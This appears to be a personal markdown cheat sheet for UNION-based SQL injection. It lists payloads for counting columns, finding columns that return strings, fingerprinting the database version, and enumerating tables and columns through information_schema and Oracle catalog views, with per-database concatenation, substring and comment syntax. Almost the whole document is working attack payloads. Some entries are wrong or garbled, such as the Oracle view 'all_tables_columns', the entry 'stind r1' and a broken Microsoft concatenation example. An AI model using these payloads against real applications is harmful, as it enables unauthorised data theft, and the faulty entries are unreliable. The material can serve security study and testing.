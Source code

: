 ## find number of columns vulnerable to SQL I
1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another  method is UNION Select NULL,NULL --  "if number of null DOESN'T match then DB gives error"
#### note for Oracle Database 
always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return 
```bash
Query= 'UNION SELECT NULL,"A"+--+'
```
OR
```bash
query = ' UNION SELECT "A",NULL --+'
```
(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version
|Database | Query |
|---|---|
|Microsoft | 'Select @@version'|
|MySQL |'Select @@version'|
|Oracle | 'Select \* from v\$Version'|
|PostgreSQL| 'Select version()'|

## listing content of DB 
#### Listing tables 
```bash
Query= 'information_schema.tables' 
```
(list out the table names in the database)
#### listing columns
```bash
Query= ' Select * from information_schema.columns Where table_name="table name we know" '
```
***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**
```bash
Query= 'Select * from all_tables '
```
**For columns** 
```bash
Query= 'Select * from all_tables_columns where table_name="table name"'
```
## String Concation 
***used for concatenation multiple string in the single string***

|***Database* **| ***Method for concate***|
|---|---|
|**Oracle **|** 'str1'  \| \|'str2'** |
|**Microsoft** |** 'str1'+str2**|
|**PostgreSQL**|**'stind r1' \|\|'str2'**|
|**MySql** | **'str1'(space)'str2'  OR CONCATE('str1','str2')**|

## Sub-string or retrieve part of the string
|DataBase| Query|
|---|---|
|Oracle |SUBSTR('the payload to return string or string', index_of_string, number_of_charector_to retrive)|
|Microsoft|SUBSTRING('STRING ', Index, number of character)|
|PostgreSQL| SUBSTRING('string', index, character)|
|MySQL| SUBSTRING('string', index, character)|

## Comments in SQL
|DataBase|Comment|
|---|---|
|Oracle|'--'|
|Microsoft|'--'and /\*\*/|
|PostgreSql|'--' and /\*\*/ |
|MySQL| \# , --(white space), /\*\*/ |


